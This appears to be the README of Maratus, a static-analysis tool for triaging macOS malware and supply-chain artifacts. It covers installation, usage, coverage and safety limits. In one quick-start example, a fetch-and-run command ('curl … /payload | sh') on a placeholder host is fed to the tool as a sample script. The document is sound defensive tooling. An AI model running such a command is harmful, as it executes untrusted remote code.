

# Maratus

[](https://github.com/0x4D31/maratus/actions/workflows/ci.yml)
[](LICENSE)

Maratus inspects macOS apps, installer packages, archives, scripts, and Mach-O
binaries without running them. It helps with malware triage and supply-chain
investigations by showing what an artifact contains, how its code may be
activated, and which capabilities the static evidence supports.

Reports connect findings to source lines, binary locations, and packaging
metadata. They also show unresolved arguments and gaps in the analysis, so you
can distinguish an embedded string from a supported download or process launch.
Maratus runs on macOS and Linux.

## Quick start

Install with Go 1.26.10 or newer:

```sh
go install github.com/0x4D31/maratus/cmd/maratus@latest
maratus version
```

Inspect an artifact, show its evidence, or save a private case bundle:

```sh
maratus inspect Suspicious.app
maratus inspect installer.pkg --detail evidence
maratus inspect sample.zip --output-dir case-sample
```

Save a complete report and review it later without rescanning:

```sh
maratus inspect sample.zip --format json -o sample.maratus.json
maratus render sample.maratus.json --detail full --color never
maratus render sample.maratus.json --format html -o sample.html
```

Analyze a script from standard input by declaring its language:

```sh
printf '%s\n' 'curl https://example.invalid/payload | sh' \
  | maratus inspect --stdin --input-kind shell
```

Use `maratus help COMMAND` for options and defaults. For annotated output, see
[Go Mach-O analysis](docs/examples/cloudchat.md),
[nested installers](docs/examples/aobo.md),
[Python process flow](docs/examples/pymafka.md), and
[AppleScript credential requests](docs/examples/mac-c.md).

## What it covers

| Area | Supported inputs and analysis |
| --- | --- |
| Packaging | Apps, flat PKGs, directories, ZIP/VSIX, TAR/TGZ, GZIP, CPIO, ASAR, and supported nested content |
| Activation | App executables, installer scripts, launchd jobs, package hooks, editor and coding-agent hooks, and Xcode build phases |
| Scripts | Shell, AppleScript/JXA, Python, JavaScript/TypeScript, plists, manifests, and selected native-source patterns |
| Native code | Thin and fat Mach-O, symbols, imports, libraries, entitlements, CodeDirectory page integrity, strings, and bounded arm64/x86_64 function and call analysis |
| Embedded content | Selected Electron, Platypus, PyInstaller, Tauri, Bun, and compiled AppleScript layouts |

Support is specific to documented formats and call forms. The
[technique coverage ledger](docs/technique-coverage.md) describes those boundaries.
DMGs are identified without mounting; inspecting their contents requires an
explicit opt-in on macOS. `--include-unreferenced` expands analysis to bundled
code and resources that no supported declaration selects.

## How it works



The artifact graph records containment. Separate host rules determine which
retained code a declaration selects. Recognizers then model supported actions,
such as reading a file or launching a process, and capability rules interpret
those actions and their relationships. Rules can also join scoped features and
execution-root facts, but every capability match requires supporting operations.
The diagram shows model dependencies, not a strict sequence of analysis passes.

A URL alone remains an observable; it needs supporting call semantics to become
a network operation. Likewise, a script inside an archive is not automatically
an execution entry. `CONNECTED` means that the static model links an operation
to a declared entry, not that the operation ran or succeeded. See
[Architecture](docs/architecture.md) for the internal model and trust boundaries.

## Reading a report

The default text view starts with capabilities and activation conditions, then
shows other behavior, observables, artifact context, and analysis notes.
`--detail evidence` adds supporting records; `--detail full` exposes the graph
and lower-level facts. HTML provides an offline, interactive review.

Always check `partial` and `skipped` coverage before interpreting a missing
finding. A report with no capability matches does not establish that a sample
is safe. Use versioned JSON for automation; the schemas are previews, so pin
the tool version and check `schema_version`. Saved reports are validated for
internal consistency but are unsigned.

## Scope and safety

Maratus performs static analysis. It does not observe runtime behavior, emulate
code, recover every dynamic value, resolve all dependencies, or make a malware
verdict. Code signing analysis checks embedded structure and page integrity;
it does not establish certificate trust, notarization, or Gatekeeper approval.

Inspection runs in a child process with time, resource, and output limits.
These controls are not a filesystem or network sandbox. Analyze unknown samples
as an unprivileged user in an isolated, disposable environment with outbound
network access denied. Leave DMG mounting disabled unless that environment is
intended to mount hostile images. Reports may contain private paths,
credentials, commands, and infrastructure identifiers; review them before sharing.
See [SECURITY.md](SECURITY.md) for handling and vulnerability reporting.

## Further reading

- [Agent triage skill](skills/maratus-triage/SKILL.md): an evidence-first workflow
  for agents. Load it explicitly from a trusted checkout, or copy the
  `skills/maratus-triage` directory into your agent's supported skill directory.
  It is self-contained; it does not install Maratus or enable sample hooks.
- [CLI and output](docs/cli-output.md): options, report fields, and exit behavior
- [Practical workflows](docs/use-cases.md): analysis and automation recipes
- [Architecture](docs/architecture.md): pipeline, invariants, and package layout
- [Technique coverage](docs/technique-coverage.md): supported behavior and limits
- [CArchive and PyInstaller](docs/carchive-pyinstaller.md): loader and representation analysis
- [Testing and validation](docs/validation.md): checks and reproducible analysis
- [Contributing](CONTRIBUTING.md) and [extending Maratus](docs/extending.md): development guidance

Maratus is released under [Apache License 2.0](LICENSE).
[Third-party notices](THIRD_PARTY_NOTICES) list dependency attributions.
